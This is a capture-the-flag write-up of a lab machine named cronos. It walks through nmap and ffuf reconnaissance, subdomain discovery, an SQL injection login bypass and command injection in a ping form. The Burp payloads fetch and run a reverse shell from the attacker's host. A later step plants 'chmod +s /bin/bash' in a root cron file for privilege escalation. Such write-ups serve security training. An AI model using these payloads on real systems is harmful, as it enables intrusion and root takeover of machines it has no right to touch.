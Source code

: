 # cronos

`nmap` scan

```text
# Nmap 7.91 scan initiated Mon Aug  9 16:30:55 2021 as: nmap -sS -sV -sC -A -O -p- --min-rate 1000 -oN cronos 10.129.30.241
Nmap scan report for 10.129.30.241
Host is up (0.15s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
# not much here

53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
# nothing here

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

an `nmap` script on the `DNS` server. Let's run it in background, while we look at the `HTTP` server. Update: nothing much from here

```text
nmap -p53 --min-rate 1000 --script broadcast-dns-service-discovery.nse,dns-blacklist.nse,dns-brute.nse,dns-cache-snoop.nse,dns-check-zone.nse,dns-client-subnet-scan.nse,dns-fuzz.nse,dns-ip6-arpa-scan.nse,dns-nsec-enum.nse,dns-nsec3-enum.nse,dns-nsid.nse,dns-random-srcport.nse,dns-random-txid.nse,dns-recursion.nse,dns-service-discovery.nse,dns-srv-enum.nse,dns-update.nse,dns-zeustracker.nse,dns-zone-transfer.nse,fcrdns.nse 10.129.30.241
```

on `ffuf`'ing the `HTTP` server with `10.10.10.13 cronos.htb` \(there is just apache page on using with IP address\), we get a `Laravel` page

![](../../.gitbook/assets/screenshot-2021-08-09-at-22.39.02.png)

and a `web.config` on the `ffuf` scan

```text
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.13/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Header           : Host: cronos.htb
 :: Extensions       : .php .txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12]
                        [Status: 200, Size: 2319, Words: 990, Lines: 86]
robots.txt              [Status: 200, Size: 24, Words: 2, Lines: 3]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
web.config              [Status: 200, Size: 914, Words: 209, Lines: 24]
:: Progress: [13842/13842] :: Job [1/1] :: 814 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

```text
<configuration>
  <system.webServer>
    <rewrite>
      <rules>
        <rule name="Imported Rule 1" stopProcessing="true">
          <match url="^(.*)/$" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Redirect" redirectType="Permanent" url="/{R:1}" />
        </rule>
        <rule name="Imported Rule 2" stopProcessing="true">
          <match url="^" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
            <add input="{REQUEST_FILENAME}" matchType="IsFile" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Rewrite" url="index.php" />
        </rule>
      </rules>
    </rewrite>
  </system.webServer>
</configuration>
```

these pages are not revealing much to us, So lets do a `subdomain enumeration`

```text
:: Method           : GET
 :: URL              : http://10.10.10.13/index.php
 :: Wordlist         : FUZZ: ./dnsrecon/subdomains-top1mil-20000.txt
 :: Header           : Host: FUZZ.cronos.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

admin                   [Status: 200, Size: 1547, Words: 525, Lines: 57]
www                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
WWW                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
:: Progress: [20000/20000] :: Job [1/1] :: 588 req/sec :: Duration: [0:00:34] :: Errors: 24 :
```

so there is a `SQLi` vulnerability on the `admin.cronos.htb` page. We get a logged in session if we try that.

![](../../.gitbook/assets/screenshot-2021-08-09-at-22.58.27.png)

on the logged in session we have an option to `ping` and `traceroute`, although `traceroute` doesn't work. and if we intercept the ping in `Burp`, we see there might be some `code injection` that might be going on.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.03.10%20%281%29%20%281%29.png)

this below is my attempt on getting a `reverse shell` on the box

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.16.38%20%281%29.png)

and now, we need to run the following commands on the `Burp repeater`

```text
command=wget+10.10.14.31%3a81/shell.py+-O+/tmp/shell.py;ping+-c+1&host=8.8.8.8
command=python3+/tmp/shell.py;ping+-c+1&host=8.8.8.8
```

and, we got a reverse shell as `www-data`

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.18.40%20%281%29.png)

and we have got a `config.php` here in our working folder, let's try to go to sql.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.20.57.png)

admin pass, not sure if this will lead us to something. So nothing much here after trying to crack this.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.21.45%20%281%29%20%281%29.png)

maybe we got something here.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.26.34.png)

nope, none of this works. By the name of the box, it maybe that there is some `cron jobs` running here. Looking at processes using `pspy`, we can see a pho job running every minute

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.19.47%20%281%29.png)

so we can modify this file to get code execution as `root` user, so let's do that now. So what I did here is, add a line that says

```text
system('chmod +s /bin/bash');
```

in the `/var/www/html/artisan` file. \(it might spoil the box for others if we do this on a shared machine\)

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.26.03.png)

and we are root now. If you want a root ssh shell from now on, its very easy to do that, just add your ssh pub key in the `/root/.ssh/authorized_keys` file and make its permissions as

```text
chmod go= /root/.ssh/authorized_keys
```

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.18.34.png)

